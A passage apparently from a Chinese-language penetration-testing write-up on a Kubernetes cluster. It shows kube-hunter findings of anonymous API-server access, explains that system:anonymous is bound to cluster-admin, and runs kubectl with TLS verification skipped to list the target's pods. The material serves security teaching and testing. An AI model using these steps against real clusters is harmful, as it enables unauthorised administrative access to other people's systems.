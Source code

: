 ```console
|        |                   | the K8S API Server   | anonymous user       | give an attacker     | ployment-58d48b746d- |
|        |                   |                      |                      | valuable information | d6x8t', 'namespace': |
|        |                   |                      |                      |                      | b'default'},         |
|        |                   |                      |                      |                      | {'name': b'nginx-    |
|        |                   |                      |                      |                      | deploymen...         |
+--------+-------------------+----------------------+----------------------+----------------------+----------------------+
| KHV007 | 172.22.14.37:6443 | Discovery // Access  | Listing namespaces   | Accessing namespaces | ['default', 'kube-   |
|        |                   | the K8S API Server   | as anonymous user    | might give an        | node-lease', 'kube-  |
|        |                   |                      |                      | attacker valuable    | public', 'kube-      |
|        |                   |                      |                      | information          | system']             |
+--------+-------------------+----------------------+----------------------+----------------------+----------------------+
| KHV007 | 172.22.14.37:6443 | Discovery // Access  | Listing cluster      | Accessing cluster    | ['admin', 'cluster-  |
|        |                   | the K8S API Server   | roles as anonymous   | roles might give an  | admin', 'edit',      |
|        |                   |                      | user                 | attacker valuable    | 'flannel',           |
|        |                   |                      |                      | information          | 'system:aggregate-   |
|        |                   |                      |                      |                      | to-admin',           |
|        |                   |                      |                      |                      | 'system:aggregate-   |
|        |                   |                      |                      |                      | to-edit...           |
+--------+-------------------+----------------------+----------------------+----------------------+----------------------+
```

K8s 集群由于鉴权配置不当，将「system:anonymous」用户绑定到「cluster-admin」用户组，使 6443 端口允许匿名用户以管理员权限向集群内部下发指令。

列出当前所有的 Pod：

```
root@kali-server:~# kubectl --insecure-skip-tls-verify -s https://172.22.14.37:6443/ get pods -o wide
Please enter Username: hony
Please enter Password:
NAME                                READY   STATUS    RESTARTS   AGE    IP            NODE         NOMINATED NODE   READINESS GATES
nginx-deployment-58d48b746d-d6x8t   1/1     Running   3          294d   10.244.0.35   ubuntu-k8s   <none>           <none>
nginx-deployment-58d48b746d-pg4gl   1/1     Running   3          294d   10.244.0.37   ubuntu-k8s   <none>           <none>
nginx-deployment-58d48b746d-s2vwl   1/1     Running   3          294d   10.244.0.34   ubuntu-k8s   <none>           <none>
nginx-deployment-58d48b746d-x26mr   1/1     Running   3          294d   10.244.0.33   ubuntu-k8s   <none>           <none>
```
